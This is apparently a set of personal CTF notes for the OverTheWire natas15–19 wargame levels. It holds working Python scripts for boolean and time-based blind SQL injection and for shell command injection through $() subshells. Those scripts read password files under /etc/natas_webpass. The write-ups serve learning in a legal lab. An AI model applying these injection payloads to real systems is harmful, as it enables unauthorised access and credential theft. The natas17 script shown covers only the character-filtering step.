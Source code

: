 # CTF Notes

### natas15
From the natas15 challenge. This is an SQL bruteforce where if the character exsists in the password, it will print "exists". Because of the output we can check whether or not we are correct through checkin if "exists" is in the content body of the response. using `requests` this can be done quite easily. The SQL query uses LIKE BINARY which is case-sensitive in order to get the correct values.

The second for loop in the script cycles 32 times (typical length of the password) and matches the exact places. %{}% matches if present in any position. {}% matches if its at the beginning (in this case to brute force the correct order). Therefore %{} would match if character was at the end.

```py
import requests
from requests.auth import HTTPBasicAuth

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""

for char in chars:
    input_data = {'username' : 'natas16" and password LIKE BINARY "%{}%" # '.format(char)}
    r = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth('natas15', '<censored>'), data = input_data)
    if "exists" in r.text:
        filtered += char

print(filtered)

for _ in range(0, 32):
    for char in filtered:
        input_data = {'username' : 'natas16" and password LIKE BINARY "{}%" # '.format(passwd + char)}
        r = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth('natas15', '<censored>'), data = input_data)
        if "exists" in r.text:
            passwd += char
            print(passwd)
            break
```
### natas16

Another brute force though not using SQL injection. There is a filter on common escape sequences (dunno what theyre called) but not on $(). This creates a subshell which can be used to run a command. There are 2 ways to solve this, one of them I do not really understand but oh well. I think prints the file to standard output `$(cat /etc/natas_webpass/natas17 > /proc/$$/fd/1)` $$ is the process id of the bash shell and /fd/1 is the standard ouput. So when running the command it is as if running the command not through a subshell.
 
The other method is a bruteforce. by grepping a single character through a subshell we can determine whether it exists in the password. By adding a word directly at the end of the sub-shell command we can determine whether the character is present by checking the response for that word. Example: `grep -i $(grep a /etc/natas_webpass/natas17)doomed dictionary.txt` if `a` was present in the password, it will result in `grep -i adoomed dictionary.txt` being executed by the server. `adoomed` is not a word and therefore would not match. If we use a script to cycle through each potential character and check everytime `doomed` is not present in the response, we would that the character is in the password. Script below.

```py
import requests
from requests.auth import HTTPBasicAuth

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""

for char in chars:
    input_data = {'needle': '$(grep {} /etc/natas_webpass/natas17)doomed'.format(char),'submit' : 'Search'}
    r = requests.get("http://natas16.natas.labs.overthewire.org/", auth=HTTPBasicAuth('natas16', '<censored>'), params=input_data)
    if "Output:\n<pre>\n</pre>" in r.text:
        filtered += char

print(filtered)

for _ in range(0, 32):
    for char in filtered:
        input_data = {'needle': '$(grep ^{} /etc/natas_webpass/natas17)doomed'.format(passwd + char),'submit' : 'Search'}
        r = requests.get("http://natas16.natas.labs.overthewire.org/", auth=HTTPBasicAuth('natas16', '<censored>'), params=input_data)
        if "Output:\n<pre>\n</pre>" in r.text:
            passwd += char
            print(passwd,'*' * int(32 - len(passwd)))
            break
```   

### natas17

source: https://www.abatchy.com/2016/12/natas-level-17
From the natas17 challenge. Bruteforce password through SQL injection though there is not output. If there is no output use the `AND sleep()` command in the query to control the response time. If the query was correct i.e char is in there, the `sleep()` will trigger and the response time will be slower. This can be checked in python using `requests`.

```py
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/index.php?debug"
auth_user = "natas17"
auth_pass = "<censored>"

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""


for char in chars: # checks which characters are in the password
    # if the query is successful it will add a 1 second relay
    input_data = {"username": 'natas18" and password LIKE BINARY "%{}%" AND sleep(1) # '.format(char)}
    r = requests.post(url, auth=HTTPBasicAuth(auth_user, auth_pass), data=input_data)
    if "01." in str(r.elapsed): # "01." specifies that the response took 1 second, from sleep(), can increase if network is slower
        print(r.elapsed, char)
        filtered += char

```
### natas 19

Anothe brute force however this time the session id was hex'd, the format was  {sessionID}-{username}, the correct user name was admin, therefore it was a matter of bruteforcing the ID
